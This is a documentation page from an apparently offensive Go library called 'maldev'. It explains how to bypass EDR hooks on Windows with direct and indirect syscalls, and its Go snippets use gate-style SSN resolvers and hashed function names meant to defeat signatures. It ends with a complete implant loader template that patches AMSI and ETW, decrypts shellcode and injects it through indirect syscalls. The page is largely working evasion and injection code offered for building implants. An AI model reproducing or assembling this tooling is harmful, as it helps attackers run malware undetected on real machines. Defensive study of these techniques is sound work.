


---
---

# Direct & Indirect Syscalls

[<- Back to Syscalls Overview](README.md)

**MITRE ATT&CK:** [T1106 - Native API](https://attack.mitre.org/techniques/T1106/)
**D3FEND:** [D3-SCA - System Call Analysis](https://d3fend.mitre.org/technique/d3f:SystemCallAnalysis/)

---

> **New to maldev syscalls?** Read the [syscalls/README.md
> vocabulary callout](README.md#primer--vocabulary) first
> (syscall, NTAPI, SSN, userland hook, direct/indirect,
> API hashing, gate-family resolvers).

## What direct/indirect syscalls is NOT

> [!IMPORTANT]
> Direct/indirect syscalls is **only** the calling-method axis
> (concern #1 in [README.md](README.md)). It answers "how do I
> *issue* the syscall — through kernel32, through ntdll, or
> straight from the implant's own page?".
>
> It does **not** decide:
>
> - **where the SSN comes from** — that's the SSN resolver
>   ([ssn-resolvers.md](ssn-resolvers.md)). `MethodDirect` /
>   `MethodIndirect` / `MethodIndirectAsm` all *consume* an SSN
>   they didn't compute themselves.
> - **how the Nt\* export is found** — that's
>   [api-hashing.md](api-hashing.md). The calling method is
>   identical whether the symbol came from a string lookup or a
>   ROR13 hash.
>
> Picking `MethodIndirectAsm` alone does not make your implant
> string-free or hook-resilient against pre-injection ntdll
> patches — pair it with `HashGate` (resolver) for the full
> stack.

## Primer

When your program needs Windows to do something (allocate memory, create a thread), it normally goes through the official front desk -- `kernel32.dll` and `ntdll.dll`. EDR products stand at this front desk, logging every request.

**Instead of going through the official front desk (which logs everything), you find a back door.** Direct syscalls build a tiny instruction that talks to the kernel directly, skipping the hooked ntdll code entirely. Indirect syscalls go one step further: they make it look like the call came from ntdll, even though your code initiated it -- like sneaking in the back door but leaving footprints that look like they came from the front.

---

## How It Works

Every NT function in ntdll follows the same x64 pattern:

```asm
mov r10, rcx         ; save first arg (kernel expects r10, not rcx)
mov eax, <SSN>       ; load the Syscall Service Number
syscall              ; transition to kernel mode
ret
```

The SSN is an index into the kernel's System Service Descriptor Table (SSDT). EDR products hook these functions by overwriting the prologue bytes with a JMP to their monitoring code.

The five methods in `win/syscall` differ in how they reach the `syscall` instruction:



### Method Comparison



| Method | Constant | Bypass kernel32 | Bypass ntdll | Survive memory scan | Survive stack analysis | Per-call VirtualProtect |
|--------|----------|-----------------|-------------|--------------------|-----------------------|-------------------------|
| WinAPI | `MethodWinAPI` | No | No | N/A | N/A | No |
| NativeAPI | `MethodNativeAPI` | Yes | No | N/A | N/A | No |
| Direct | `MethodDirect` | Yes | Yes | No | No | Yes (RW↔RX) |
| Indirect | `MethodIndirect` | Yes | Yes | Yes | Yes | Yes (RW↔RX) |
| IndirectAsm | `MethodIndirectAsm` | Yes | Yes | **Yes** | **Yes** | **No** |

### MethodIndirectAsm vs MethodIndirect

Both end the same way — `syscall` executes inside ntdll's `.text` from a randomly picked `syscall;ret` gadget — but the path to the gadget is different.

`MethodIndirect` builds a 21-byte stub (`mov r10,rcx; mov eax,SSN; mov r11,gadget; jmp r11`) into a heap page, flips the page `RW→RX→RW` around `SyscallN`, and returns. That heap page is writable code in the implant's address space, and the protection cycle calls `VirtualProtect` twice per syscall — both are classic EDR signals.

`MethodIndirectAsm` ships the same logic as Go assembly inside the binary's `.text` section. SSN and gadget address are passed as register arguments — no patching, no writable code page, no `VirtualProtect`. The trade-off is that the stub lives at a fixed RVA inside the implant binary, so a YARA rule could match its bytes; mitigate by morphing the function or stripping symbols.

The gadget address is drawn at random per call from the full pool of `0F 05 C3` triples in ntdll (`pickSyscallGadget`), so successive syscalls from the same caller don't all return to the same RVA.

---

## Usage

### Basic: WinAPI (Default Fallback)

When `*Caller` is `nil`, consumer packages fall back to standard WinAPI:

```go
import "github.com/oioio-space/maldev/inject"

// nil Caller = standard WinAPI path (no bypass)
pipe := inject.NewPipeline(nil)
```

### Direct Syscalls with Hell's Gate

```go
import (
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

caller := wsyscall.New(wsyscall.MethodDirect, wsyscall.NewHellsGate())
defer caller.Close()

// Call NtAllocateVirtualMemory directly -- bypasses all userland hooks
ret, err := caller.Call("NtAllocateVirtualMemory",
    uintptr(0xFFFFFFFFFFFFFFFF), // ProcessHandle (-1 = current)
    uintptr(unsafe.Pointer(&baseAddr)),
    0,
    uintptr(unsafe.Pointer(&regionSize)),
    windows.MEM_COMMIT|windows.MEM_RESERVE,
    windows.PAGE_READWRITE,
)
```

### Indirect Syscalls with Tartarus Gate

```go
import (
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

// Tartarus Gate handles JMP-hooked functions
caller := wsyscall.New(wsyscall.MethodIndirect, wsyscall.NewTartarus())
defer caller.Close()

ret, err := caller.Call("NtCreateThreadEx", /* args... */)
```

### IndirectAsm + custom hash function

```go
import wsyscall "github.com/oioio-space/maldev/win/syscall"

// Build-time hash function — every binary built with a different `key`
// produces different funcHash constants, so static signatures on the
// well-known ROR13 values stop matching.
fnv1a := func(s string) uint32 {
    h := uint32(2166136261)
    for i := 0; i < len(s); i++ {
        h ^= uint32(s[i])
        h *= 16777619
    }
    return h
}

caller := wsyscall.New(
    wsyscall.MethodIndirectAsm,
    wsyscall.NewHashGateWith(fnv1a),
).WithHashFunc(fnv1a)

// fnv1a("NtAllocateVirtualMemory") is computed at build-time by the
// optimizer when fed a string constant — no plaintext name in .rdata.
ret, err := caller.CallByHash(fnv1a("NtAllocateVirtualMemory"), /* args */)
```

Both ends MUST agree: `NewHashGateWith(fn)` for the resolver to walk the export table, `WithHashFunc(fn)` for `CallByHash` to do the same lookup. Pass `nil` (or call `NewHashGate()`) for the default ROR13 path.

### String-Free: CallByHash

```go
import (
    "github.com/oioio-space/maldev/win/api"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

caller := wsyscall.New(wsyscall.MethodIndirect, wsyscall.NewHashGate())
defer caller.Close()

// No plaintext function name in the binary -- only a uint32 hash constant
ret, err := caller.CallByHash(api.HashNtAllocateVirtualMemory,
    uintptr(0xFFFFFFFFFFFFFFFF),
    uintptr(unsafe.Pointer(&baseAddr)),
    0,
    uintptr(unsafe.Pointer(&regionSize)),
    windows.MEM_COMMIT|windows.MEM_RESERVE,
    windows.PAGE_READWRITE,
)
```

---

## Combined Example: Injection + Evasion + Indirect Syscalls

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/etw"
    "github.com/oioio-space/maldev/inject"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    // 1. Create an indirect syscall caller with resilient SSN resolution
    caller := wsyscall.New(wsyscall.MethodIndirect,
        wsyscall.Chain(
            wsyscall.NewTartarus(),  // try JMP-hook trampoline first
            wsyscall.NewHalosGate(), // fall back to neighbor scanning
        ),
    )
    defer caller.Close()

    // 2. Apply evasion techniques through the same caller
    evasion.ApplyAll([]evasion.Technique{
        amsi.ScanBufferPatch(),
        etw.All(),
    }, caller)

    // 3. Decrypt payload
    key := []byte("your-32-byte-AES-key-here!!!!!!")
    encPayload := []byte{/* encrypted shellcode */}
    shellcode, _ := crypto.DecryptAESGCM(key, encPayload)

    // 4. Inject using indirect syscalls for all NT calls
    inj, err := inject.NewWindowsInjector(&inject.WindowsConfig{
        Config:        inject.Config{Method: inject.MethodCreateThread},
        SyscallMethod: wsyscall.MethodIndirect,
    })
    if err != nil { log.Fatal(err) }
    if err := inj.Inject(shellcode); err != nil { log.Fatal(err) }
}
```

---

## Advantages & Limitations

### Advantages

- **Transparent bypass**: Consumer packages pass `*Caller` -- same code works with WinAPI or indirect syscalls
- **RW/RX cycling**: Stub pages are allocated RW, cycled to RX for execution, then back to RW -- no permanent RWX
- **Pre-allocated stubs**: One VirtualAlloc per Caller lifetime, not per call -- reduces API call noise
- **Composable**: Chain resolvers for maximum resilience against partial hooking

### Limitations

- **Direct syscalls**: The `syscall` instruction at a non-ntdll address is trivially detectable by memory scanners
- **Indirect syscalls**: Still require a `jmp` gadget in ntdll -- if ntdll is entirely remapped, gadget scanning fails
- **SSN stability**: SSNs change between Windows versions -- resolvers must run at runtime, not compile time
- **x64 only**: The stub layouts and PEB offsets are hardcoded for x86-64

---

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/win/syscall`](https://pkg.go.dev/github.com/oioio-space/maldev/win/syscall) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## See also

- [Syscalls area README](README.md)
- [`syscalls/api-hashing.md`](api-hashing.md) — string-free import resolution for the Direct/Indirect path
- [`syscalls/ssn-resolvers.md`](ssn-resolvers.md) — SSN extraction strategies plugged into the Caller
